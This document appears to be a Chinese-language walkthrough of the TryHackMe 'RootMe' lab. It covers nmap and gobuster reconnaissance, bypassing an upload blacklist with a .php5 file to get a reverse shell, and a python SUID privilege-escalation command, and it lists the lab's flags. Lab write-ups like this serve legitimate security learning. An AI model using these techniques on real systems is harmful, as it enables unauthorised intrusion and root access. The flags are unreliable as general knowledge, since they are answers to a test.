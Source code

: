 # rootme-tryhackme-WP

## 00x1侦察

扫描机器，有多少端口开放？  
```
nmap -Pn IP  
22/tcp open  ssh  
80/tcp open  http  
``````
答案：2  

正在运行什么版本的Apache ？  
``````
nmap -Pn -p80 -sV IP  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
``````
答案：2.4.29  

端口 22 上正在运行什么服务？  
答案：ssh  

使用 GoBuster 工具查找 Web 服务器上的目录。 
`````` 
gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
/uploads              (Status: 301) [Size: 314] [--> http://IP/uploads/]  
/css                  (Status: 301) [Size: 310] [--> http://IP/css/]  
/js                   (Status: 301) [Size: 309] [--> http://IP/js/]  
/panel                (Status: 301) [Size: 312] [--> http://IP/panel/]  
``````

隐藏目录是什么？  
答案：/panel/  

## 00x2获取shell  

找到一个表单上传并获取反向shell，并找到flag。  

user.txt  
文件上传的过滤器是黑名单，.php被过滤，使用.php5可以上传  
payload是上传漏洞的payload  
拿到反shell后，使用命令find / -name "user.txt"找到user.txt  
会很长慢慢找  
大概在/var/www/文件夹下  
答案：THM{y0u_g0t_a_sh3ll}  

## 00x3权限提升

现在我们有了 shell，让我们将权限升级到 root。  

搜索有SUID权限的文件，哪个文件比较奇怪？  
使用命令find / -perm -4000  
-perm:匹配权限  
-4000:suid文件的权限  
答案：/usr/bin/python  

找到一个表格来升级您的权限。    
关键词：python，suid（主要是参考了wp，本人并不会提权）  
根据hint，去gtfobins找  

``````
苏伊德  
如果二进制文件设置了 SUID 位，则它不会放弃提升的权限，并且可能会被滥用来访问文件系统、升级或维持作为 SUID 后门的特权访问。如果它用于运行sh -p，请-p在 Debian (<= Stretch) 等允许默认shshell 以 SUID 权限运行的系统上省略该参数。  


此示例创建二进制文件的本地 SUID 副本并运行它以维护提升的权限。要与现有 SUID 二进制文件交互，请跳过第一个命令并使用其原始路径运行程序。  
sudo install -m =xs $(which python) .  
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'  
``````

直接使用命令python -c 'import os; os.execl("/bin/sh", "sh", "-p")'  
然后find / -name "root.txt"  

root.txt  
答案：THM{pr1v1l3g3_3sc4l4t10n}  

